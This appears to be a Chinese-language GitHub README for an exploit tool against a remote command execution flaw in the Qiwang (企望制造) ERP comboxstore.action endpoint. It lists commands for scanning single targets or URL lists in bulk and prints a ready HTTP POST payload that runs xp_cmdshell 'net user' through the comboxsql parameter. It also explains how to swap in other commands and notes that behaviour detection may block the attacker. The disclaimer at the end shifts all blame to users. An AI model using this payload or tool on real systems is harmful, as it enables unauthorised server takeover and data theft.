


# 企望制造 ERP comboxstore.action 远程命令执行漏洞

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者可以利用该漏洞获取服务器权限

## 工具利用

python3 QiwangERP_RCE.py -u http://127.0.0.1:1111 单个url测试

python3 QiwangERP_RCE.py -f url.txt 批量检测



## exp利用

将脚本流量转发到burp

修改exec参数执行其他命令
```
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.96.7 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

comboxsql=exec%20xp_cmdshell%20'net+user'
```


tips:
1、命令中的空格需要url编码或者用 + 等符号替换
2、如果一开始可以执行命令到后边突然执行不了了大概率是被行为检测到给ban了

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
